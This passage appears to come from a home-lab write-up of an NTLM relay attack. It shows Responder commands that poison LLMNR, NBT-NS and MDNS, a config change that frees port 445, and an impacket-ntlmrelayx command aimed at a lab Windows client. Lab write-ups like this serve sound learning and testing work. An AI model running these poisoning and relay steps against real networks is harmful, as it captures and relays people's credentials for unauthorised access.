 #### **4.1 Setting Up Responder**

Responder is used to poison LLMNR, NBT-NS, and MDNS requests, capturing NTLM authentication attempts. Initial attempts to use the `-r` flag failed due to version incompatibility (Responder 3.1.5.0). The corrected command was:

```bash
sudo responder -I eth0 -dwv
```
- Parameters:
  - `-I eth0`: Specifies the network interface.
  - `-d`: Enables LLMNR poisoning.
  - `-w`: Enables WPAD rogue proxy server.
  - `-v`: Enables verbose output.

**Output**:
```
[+] Listening for events...
[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]
[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    SMB server                 [ON]
...
```

However, running Responder with its default SMB server caused a port conflict with ntlmrelayx (both attempting to bind to port 445). To resolve this:

```bash
sudo nano /etc/responder/Responder.conf
```
- Changed `SMB = On` to `SMB = Off` to disable Responder's SMB server.
- Saved and exited.

Restarted Responder:

```bash
sudo responder -I eth0 -dwv
```

#### **4.2 Setting Up ntlmrelayx**

In a separate terminal, started ntlmrelayx to relay captured credentials to the second Windows client (192.168.56.105). Initial attempts using `ntlmrelayx.py` failed due to incorrect command syntax. The correct command, accounting for the Impacket prefix, was:

```bash
sudo impacket-ntlmrelayx -t smb://192.168.56.105 -smb2support
```
- Parameters:
  - `-t smb://192.168.56.105`: Specifies the target (Client 2).
  - `-smb2support`: Enables SMB2 protocol support.
